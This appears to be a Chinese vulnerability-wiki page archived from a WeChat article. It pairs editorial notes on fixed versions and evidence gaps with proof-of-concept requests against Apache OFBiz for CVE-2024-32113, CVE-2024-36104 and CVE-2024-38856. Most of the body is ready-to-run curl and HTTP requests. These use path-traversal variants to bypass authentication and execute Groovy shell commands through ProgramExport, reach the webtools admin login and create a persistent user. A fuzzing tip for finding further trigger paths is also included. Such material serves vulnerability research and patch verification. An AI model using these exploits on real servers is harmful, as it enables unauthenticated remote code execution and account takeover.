



# Apache OfBiz CVE-2024-32113和CVE-2024-36104 漏洞 POC

## 2026-10-03 公开验证资料补充

[固定模板](https://github.com/projectdiscovery/nuclei-templates/blob/9e93c63782dbb2b6160e068710d6240f418a3ed6/http/cves/2024/CVE-2024-32113.yaml) 给出 `forgotPassword/%2e/%2e/ProgramExport` 的完整 POST，而本页保留另一组路径与凭据示例。两者共同指向控制器路径解析和 Groovy 执行入口，但不是相同字节的请求，不能悄悄替换原样例。模板分别尝试 `id` 和 `ipconfig`，并检查异常上下文中的命令结果；这是执行命令的验证，不是版本探测。

[Apache CNA](https://cveawg.mitre.org/api/cve/CVE-2024-32113) 将此编号的首个修复版本列为 18.12.13；38856 的首次修复则为 18.12.15，45195 为 18.12.16。共同使用 ProgramExport 不代表三个编号是同一个漏洞。客户端可能规范化路径，原样字节到达服务器是适用条件之一。本次未执行 curl、模板或创建用户。

### 独立复核补充说明

本次补充只计入 CVE-2024-32113，原文章其他编号保留。[Rapid7 的原始对照分析](https://www.rapid7.com/blog/post/2024/09/05/cve-2024-45195-apache-ofbiz-unauthenticated-remote-code-execution-fixed/) 在 CVE-2024-32113 小节给出 pre-18.12.13 的完整 traversal 请求，并说明后续若干路径也可作用于较早版本。因此 ProgramExport 命令输出不能独立区分 32113、36104 和 38856；18.12.13 是此编号的历史首修版本，不表示整个相关缺陷家族此后均已消除。


<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：各版本/认证绕过路径不同；前两组使用匿名联系表单相关用户/凭据，第三组controller/view混淆；环境未完整列出
- 证据范围：提供多编码、分号路径与ProgramExport示例，不能因共同sink合并为单一漏洞。

### 本次正文校订

- 按实际内容修正 6 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 标题漏38856、frontmatter仅32113，须建三个主实体
- 完全缺三项受影响和修复版本及实验设置
- curl未说明路径归一化影响或path-as-is，重定向和cookie处理也不完整
- 说明分号路径需手动cookie但请求未给该步骤；凭据如何取得未解释
- 返回success不是全部controller都可触发RCE的充分条件
- 创建用户PoC有持久副作用需标注

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

 Ots安全   2024-08-07 11:31  
  
  
  
Apache OfBiz 漏洞  
  
**CVE-2024-32113 的 POC**  
  
USERNAME和参数PASSWORD可以在/ecomseo/AnonContactus界面上提供，任何人都可以公开访问。  
- POC1：远程代码执行  
  
```shell
curl --noproxy '*' -k --location --request POST 'https://127.0.0.1:8443/xxx/yyy/zzz/../../../%2e/webtools/control/ProgramExport' \
--header 'User-Agent: Apifox/1.0.0 (https://apifox.com)' \
--header 'Accept: */*' \
--header 'Host: 127.0.0.1:8443' \
--header 'Connection: keep-alive' \
--header 'Content-Type: application/x-www-form-urlencoded' \
--data-urlencode 'USERNAME=t@t.com' \
--data-urlencode 'JavaScriptEnabled=Y' \
--data-urlencode 'PASSWORD=12345' \
--data-urlencode 'groovyProgram=println (('\''tou'\'' + '\''ch /tmp/success'\'').execute().text);'
```  
- POC2：可以绕过登录来访问受限制的webtools管理界面。  
  
```shell
curl --noproxy '*' -k --location --request POST 'https://127.0.0.1:8443/xxx/yyy/zzz/../../../%2e/webtools/control/login/' \
--header 'User-Agent: Apifox/1.0.0 (https://apifox.com)' \
--header 'Accept: */*' \
--header 'Host: 127.0.0.1:8443' \
--header 'Connection: keep-alive' \
--header 'Content-Type: application/x-www-form-urlencoded' \
--data-urlencode 'USERNAME=t@t.com' \
--data-urlencode 'PASSWORD=12345' \
--data-urlencode 'JavaScriptEnabled=Y'
```  
- POC3：可以注册一个普通用户账号，userLoginId作为用户名。  
  
```shell
curl --noproxy '*'  -k --location --request POST 'https://127.0.0.1:8443/xxx/yyy/zzz/../../../%2e/webtools/control/createUserLogin' \
--header 'User-Agent: Apifox/1.0.0 (https://apifox.com)' \
--header 'Accept: */*' \
--header 'Host: 127.0.0.1:8443' \
--header 'Connection: keep-alive' \
--header 'Content-Type: application/x-www-form-urlencoded' \
--data-urlencode 'USERNAME=t@t.com' \
--data-urlencode 'PASSWORD=12345' \
--data-urlencode 'JavaScriptEnabled=Y' \
--data-urlencode 'enabled=Y' \
--data-urlencode 'partyId=' \
--data-urlencode 'userLoginId=30000' \
--data-urlencode 'currentPassword=12345' \
--data-urlencode 'currentPasswordVerify=12345' \
--data-urlencode 'passwordHint=' \
--data-urlencode 'requirePasswordChange=N' \
--data-urlencode 'securityQuestion=' \
--data-urlencode 'SecurityAnswer=' \
--data-urlencode 'externalAuthId='
```  
  
CVE-2024-36104 的 POC  
- **RCE1**  
  
```shell
curl --noproxy '*' -k --location --request POST 'https://127.0.0.1:8443/xxx/yyy/zzz/.%2e/.%2e/.%2e/webtools/control/ProgramExport' \
--header 'User-Agent: Apifox/1.0.0 (https://apifox.com)' \
--header 'Accept: */*' \
--header 'Host: 127.0.0.1:8443' \
--header 'Connection: keep-alive' \
--header 'Content-Type: application/x-www-form-urlencoded' \
--data-urlencode 'USERNAME=t@t.com' \
--data-urlencode 'JavaScriptEnabled=Y' \
--data-urlencode 'PASSWORD=12345' \
--data-urlencode 'groovyProgram=println (('\''tou'\'' + '\''ch /tmp/success'\'').execute().text);'
```  
- **RCE2**  
  
```shell
curl --noproxy '*' -k --location --request POST 'https://127.0.0.1:8443/xxx/yyy/zzz/..;/..;/..;/webtools/control/ProgramExport' \
--header 'User-Agent: Apifox/1.0.0 (https://apifox.com)' \
--header 'Accept: */*' \
--header 'Host: 127.0.0.1:8443' \
--header 'Connection: keep-alive' \
--header 'Content-Type: application/x-www-form-urlencoded' \
--data-urlencode 'USERNAME=t@t.com' \
--data-urlencode 'JavaScriptEnabled=Y' \
--data-urlencode 'PASSWORD=12345' \
--data-urlencode 'groovyProgram=println (('\''tou'\'' + '\''ch /tmp/success'\'').execute().text);'
```  
  
PS：;会导致cookie设置异常，需要手动获取cookie。  
  
  
  
  
  
CVE-2024-38856 的 POC  
- 远程代码执行  
  
```http
POST /webtools/control/forgotPassword/ProgramExport HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: 127.0.0.1:8443

groovyProgram=throw+new+Exception('id'.execute().text);
```  
  
PS：forgotPassword可以替换成其他请求，可以尝试在 中搜索webapp/webtools/WEB-INF/controller.xml（如图）进行fuzzing，只要请求成功返回success，就可以触发ProgramExport模块中的RCE。  
  
  
  
```
https://github.com/RacerZ-fighting/CVE-2024-32113-POC
```  
  
  
  
  
感谢您抽出  
  
  
  
.  
  
  
  
.  
  
  
  
来阅读本文  
  
  
  
**点它，分享点赞在看都在这里**  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
